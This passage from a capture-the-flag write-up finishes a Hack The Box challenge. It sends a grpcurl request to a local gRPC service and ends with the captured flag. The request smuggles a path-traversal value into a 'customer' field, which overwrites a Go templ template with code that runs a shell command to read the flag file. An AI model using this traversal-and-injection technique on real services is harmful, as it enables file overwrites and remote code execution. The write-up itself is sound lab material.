 Reload the page and get the flag filename, then update our command.

```bash
./grpcurl -plaintext -d '{"customer": "../../view/home/index.templ", "testimonial": "package home\n\nimport (\n\t\"os/exec\"\n\t\"strings\"\n)\n\nfunc hack() []string {\n\toutput, _ := exec.Command(\"cat\", \"/flagbba4cb647c.txt\").CombinedOutput()\n\tlines := strings.Fields(string(output))\n\treturn lines\n}\n\ntempl Index() {\n\t@template(hack())\n}\n\ntempl template(items []string) {\n\tfor _, item := range items {\n\t\t{item}\n\t}\n}" }' -import-path challenge/pb/ -proto ptypes.proto 127.0.0.1:50045 RickyService.SubmitTestimonial

{
  "message": "Testimonial submitted successfully"
}
```

Flag: `HTB{w34kly_t35t3d_t3mplate5}`
